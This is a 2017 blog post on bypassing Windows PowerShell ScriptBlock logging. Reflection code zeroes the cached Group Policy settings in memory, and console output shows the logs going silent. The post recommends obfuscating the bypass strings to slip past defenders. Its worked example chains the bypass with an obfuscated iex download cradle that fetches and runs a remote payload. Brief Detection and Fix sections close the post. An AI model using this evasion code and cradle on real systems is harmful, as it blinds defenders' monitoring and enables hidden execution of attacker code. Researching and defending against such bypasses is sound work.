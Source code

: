 ```yaml
---
layout: post
title: "PowerShell ScriptBlock Logging Bypass"
date: 2017-5-17 00:00:01 -0600
tags: PowerShell
---
```


In Windows 10 / PowerShell 5.0, Microsoft introduced several new security features in PowerShell. These included the AMSI, Protected Event Logging, and maybe most importantly **ScriptBlock logging**. The comprehensive ScriptBlock logging now available in PowerShell has presented serious problems for attackers. Now, it is possible for defenders to have access to full logs recording all of an attacker's malicious PowerShell activity. This has caused some to even suggest that the offensive community should move away from PowerShell altogether.

But all is not lost! (At least not yet)

ScriptBlock logging is enabled through a Group Policy setting, and PowerShell will query that Group Policy setting each time it sees a new ScriptBlock to determine if it should be logged. But it would be silly to query Group Policy *for each ScriptBlock*! Why not just query once and cache the result in memory?

Luckily, PowerShell caches the results of it's Group Policies in a utility dictionary, so it can query once, remember the value, and simply return that value the next time someone asks for it. Efficiency! Just one problem. You might remember me talking about some PowerShell reflection black magic in [my last post, where I detailed a ScriptBlock Warning-level log bypass](({{site.baseurl}}/ScriptBlock-Warning-Event-Logging-Bypass.html)). Well, it gets worse. (Or better, however you look at it.) That cached Group Policy dictionary can be altered with some [Matt Graeber style reflection magic](https://twitter.com/mattifestation/status/735261176745988096):

```
$GroupPolicySettingsField = [ref].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySettings', 'NonPublic,Static')
$GroupPolicySettings = $GroupPolicySettingsField.GetValue($null)
$GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockLogging'] = 0
$GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockInvocationLogging'] = 0
```

And for some evidence...

```
PS> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Measure | % Count
0
PS> $GroupPolicySettingsField = [ref].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySettings', 'NonPublic,Static')
PS> $GroupPolicySettings = $GroupPolicySettingsField.GetValue($null)
PS> $GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockLogging'] = 0
PS> $GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockInvocationLogging'] = 0
PS> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Measure | % Count
14
PS> "testing 123"
PS> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Measure | % Count
14
```

There you have it: ScriptBlock Logging bypass! The best part? **All of this can be done in memory and without administrative privileges!** No need to edit Group Policy settings and no need to edit registry settings.

As a sidenote, remember that just like [the last bypass I posted]({{site.baseurl}}/ScriptBlock-Warning-Event-Logging-Bypass.html), this only takes affect *after the first ScriptBlock completes*. The bypass itself **will be logged**. With that in mind, I recommend:
* Using obfuscation on the "suspicious" strings in the bypass and/or using the Warning-level log bypass so that the first log doesn't get logged at the warning level
* Executing your payload using a remote download cradle (bonus points for [obfuscating the cradle](https://github.com/danielbohannon/Invoke-CradleCrafter)) so that the payload does not appear in logs at all

Example: [(Gist)](https://gist.github.com/cobbr/d8072d730b24fbae6ffe3aed8ca9c407)

```
$GroupPolicySettingsField = [ref].Assembly.GetType('System.Management.Automation.Utils')."GetFie`ld"('cachedGroupPolicySettings', 'N'+'onPublic,Static')
$GroupPolicySettings = $GroupPolicySettingsField.GetValue($null)
$GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockLogging'] = 0
$GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockInvocationLogging'] = 0
iex (New-Object Net.WebClient).downloadstring("https://myserver/mypayload.ps1")
```

But we could probably alter **any** of the values in this dictionary, right? So let's take a look at what's in there:

```
PS> [ref].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySettings', 'NonPublic,Static').GetValue($null)

Key                         Value
---                         -----
ProtectedEventLogging       {[EnableProtectedEventLogging, 1], [EncryptionCertificate, -----BEGIN CERTIFICATE-----...
Transcription               {[EnableTranscripting, 1], [OutputDirectory, ]}
ScriptBlockLogging          {[EnableScriptBlockLogging, 1], [EnableScriptBlockInvocationLogging, 1]}
ConsoleSessionConfiguration
ModuleLogging               {[EnableModuleLogging, 1], [ModuleNames, System.String[]]}

```

Hmm...

At first, this looks like there is potential for more abuse. Initial testing has showed that simply replacing the values in the dictionary does *not* work to bypass Transcription logging, Module logging, or ProtectedEventLogging, but this may be a piece of the puzzle and I'll certainly be looking into those next. In the meantime, be sure to **utilize these other logging types in addition to ScriptBlock logging!**

## Detection?

Unfortunately for defenders, there doesn't currently seem to be a lot of great ways to detect this happening. Group Policy and registry entries **will still indicate that all logging types are enabled**. The one piece of evidence you *will* have is the 1 ScriptBlock log that contains the bypass. Defenders could start searching for the bypass within logs, but this could probably be avoided using some more obfuscation techniques.

## Fix?

This could be fixed pretty easily by taking out the Group Policy cache used in PowerShell altogether, though I have no idea how much that could affect performance. If that solution is not a possibility, then this may be a tough fix.
